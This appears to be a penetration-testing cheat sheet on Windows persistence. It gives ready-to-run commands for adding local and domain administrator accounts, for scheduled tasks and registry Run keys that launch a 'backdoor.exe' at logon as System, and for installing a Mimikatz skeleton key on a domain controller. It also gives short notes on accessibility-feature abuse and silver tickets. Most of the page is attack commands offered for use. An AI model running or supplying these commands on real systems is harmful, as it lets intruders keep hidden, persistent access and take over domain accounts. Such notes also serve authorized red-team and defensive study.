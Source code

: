 # Windows

## Guides

3 good guides:

* [https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/)
* [https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/)
* [https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/)

## Add User

Commands: 

`net user "username" "password" /ADD` 

`net group "Domain Admins" %username% /DOMAIN /ADD` 

Change user password 

`net user USERNAME *` 

Using Powershell:

`Add-LocalGroupMember -Group Administrators -Member hacker`

## Scheduled task

### SharpPresist

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Scheduled task: 

`Execute-assembly ~/Downloads/SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o hourly` 

Or 

`SharPersist -t schtask -c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe" -a "C:\Users\John\msbuild.csproj" -n "Test" -m add -o hourly` 

Delete a Scheduled task: 

`SharPersist -t schtask -n "Test" -m remove` 

### PowerShell 

```text
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe" 
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta" 
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta" 
PS C:\> $S = New-ScheduledTaskSettingsSet 
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S 
PS C:\> Register-ScheduledTask Backdoor -InputObject $D 
```

### Command Line 

`shell schtasks /create /tn Test /tr "c:\windows\system32\cmd.exe /c c:\Users\JOHN\Downloads\backdoor.exe" /sc onlogon /ru System` 

## Registry Key

### SharpPresist: 

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Registry Key: 

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add` 

Delete a Registry Key: 

`SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove` 

### Command Line 

`shell reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Test /t REG_SZ /d "C:\Windows\System32\cmd.exe"` 

Delete: 

`reg delete  Registry_key_path /v Registry_value_name` 

## Accessibility Features

The accessibility features provide additional options \(on screen keyboards, magnifier, screen reading etc.\) that could assist people with disabilities to use Windows operating systems easier. However, this functionality can be abused to achieve persistence on a host that RDP is enabled and Administrator level privileges have been obtained. This technique touches the disk, or modification of the registry is required to execute a stored remotely payload. 

[https://pentestlab.blog/2019/11/13/persistence-accessibility-features/](https://pentestlab.blog/2019/11/13/persistence-accessibility-features/)

## Silver Tickets

Computers change their account passwords every 30 days, but this is initialized by the client, not Active Directory. extract the host computer account hash, set a specific registry key, and you can regain access indefinitely. 

## Skeleton Key

The method injects itself into LSASS and creates a master password that will work for any account in the domain.

* The Skeleton Key only works for Kerberos RC4 encryption
* The Skeleton Key is a backdoor that runs on the Domain Controller \(in memory\) allows single password \(the skeleton password\) that can be used to log on to any account;

Run it on a DC using Mimikatz:

```text
privilege::debug
misc::skeleton
```

[https://pentestlab.blog/2018/04/10/skeleton-key/](https://pentestlab.blog/2018/04/10/skeleton-key/)

